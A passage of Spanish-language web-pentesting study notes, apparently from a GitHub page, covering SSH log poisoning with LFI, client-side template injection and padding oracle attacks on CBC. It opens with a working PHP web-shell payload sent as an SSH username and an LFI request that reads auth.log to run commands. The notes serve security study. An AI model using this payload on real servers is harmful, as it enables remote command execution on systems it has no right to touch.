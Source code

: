 Desde terminal realizo petición por ssh para que se guarde el log:
```bash
ssh '<?php system($_GET["cmd"]); ?>'@IP

--> y escribimos cualquier contraseña
```
Te habrá añadido esa línea en el log.  
Ahora por navegador pero esta vez al log de ssh:
```
http://webInsegura/index.php?filename=/var/log/auth.log&cmd=whoami
```
- - - 

## CSTI - Client Side Template Inyection

El ataque CSTI es parecido a un SSTI (Server Side Template Inyection). Surgen cuando las aplicaciones que utilizan un **marco de plantilla del lado del cliente** incorporan dinámicamente la entrada del usuario en las páginas web. Cuando se representa una página web, el marco escaneará la página en busca de expresiones de plantilla y ejecutará cualquiera que encuentre.  
Dejo por aquí la página donde recojo la información:  
https://portswigger.net/kb/issues/00200308_client-side-template-injection

Para testear podemos hacer lo mismo que para un SSTI;  
\{\{7\*7\}\}  
Pero no funcionará si queremos cargar archivos locales o ejecutar comandos. No se puede a través de este ataque. A lo que suele derivar es a un XSS, si vamos a payloadAllTheThings al apartado de XSS [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) podemos encontrar ejemplos de CSTI (filtra por client-side).

Una vez llegado al XSS no se pueden hacer las mismas cosas, es más díficil, o así lo veo yo. Es el propio usuario a vulnerar quien tendría que escribir el propio xss para que se cargara(por lo que puedo entender).

- - - 

## Padding Oracle - Ataque de Oráculo de Relleno.

### ¿Qué es? 

Un padding oracle attack es un ciberataque criptográfico para el modo **cifrado CBC** que permite descifrar un mensaje completo a partir de una dosis mínima de información acerca de su padding.  
¿Qué es el padding?. El padding (relleno) es el sistema que utiliza un modo de operación de cifrado para rellenar los bits que hacen falta para completar el bloque del mensaje. Ya que los bloques tienen un tamaño fijo.  
Información recogida en; https://keepcoding.io/blog/que-es-un-padding-oracle-attack/.  
Otra página donde lo explican muy bien es; https://www.vulnhub.com/?q=padding+oracle

El cifrado CBC divide el mensaje en bloques de X bytes. Cada bloque de texto plano es cifrado mediante una operación XOR (cifrado XOR). Además, al siguiente bloque se le hace una operación XOR con el bloque de texto cifrado anterior. Para comenzar el algoritmo, se utiliza un vector de inicialización. Y así se originaría un texto cifrado final.

Cuando la aplicación te descifra el código cifrado primero descifra el mensaje y luego limpia el relleno. Si el relleno es inválido puede generar alguna respuesta que nos de algo de información para realizar este ataque. 
Información recogida de la Academia de S4vitar; https://hack4u.io.
